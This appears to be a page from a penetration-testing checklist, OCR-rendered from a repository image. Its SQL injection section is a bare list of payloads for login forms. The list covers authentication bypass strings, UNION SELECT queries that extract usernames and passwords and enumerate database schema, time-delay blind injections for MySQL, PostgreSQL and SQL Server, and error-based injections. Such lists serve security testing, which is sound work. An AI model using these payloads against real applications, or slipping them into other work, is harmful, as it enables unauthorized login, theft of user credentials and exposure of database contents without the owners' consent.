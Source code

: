 
## 💉 2. SQL INJECTION TESTING

### 2.1 Authentication Bypass
```sql
-- Payload trong login form
username: admin'--
password: anything

username: ' OR '1'='1' --
password: anything

username: admin' OR 1=1--
password: anything

username: ' OR 'a'='a
password: ' OR 'a'='a
```

### 2.2 Union-Based SQL Injection
```sql
-- Test union select
username: ' UNION SELECT username, password FROM users--
username: ' UNION SELECT 1,2,3,4,5--
username: ' UNION SELECT null,username,password,null FROM users--

-- Information gathering
username: ' UNION SELECT table_name, null FROM information_schema.tables--
username: ' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--
```

### 2.3 Time-Based Blind SQL Injection
```sql
-- MySQL time delay
username: admin'; SELECT SLEEP(5)--
username: admin' AND (SELECT SLEEP(5))--

-- PostgreSQL time delay  
username: admin'; SELECT pg_sleep(5)--

-- SQL Server time delay
username: admin'; WAITFOR DELAY '00:00:05'--
```

### 2.4 Error-Based SQL Injection
```sql
-- MySQL error injection
username: admin' AND (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2 UNION SELECT 3)x GROUP BY CONCAT((SELECT version()),FLOOR(RAND(0)*2)))--

-- PostgreSQL error injection
username: admin' AND (SELECT CAST((SELECT version()) AS int))--
```

---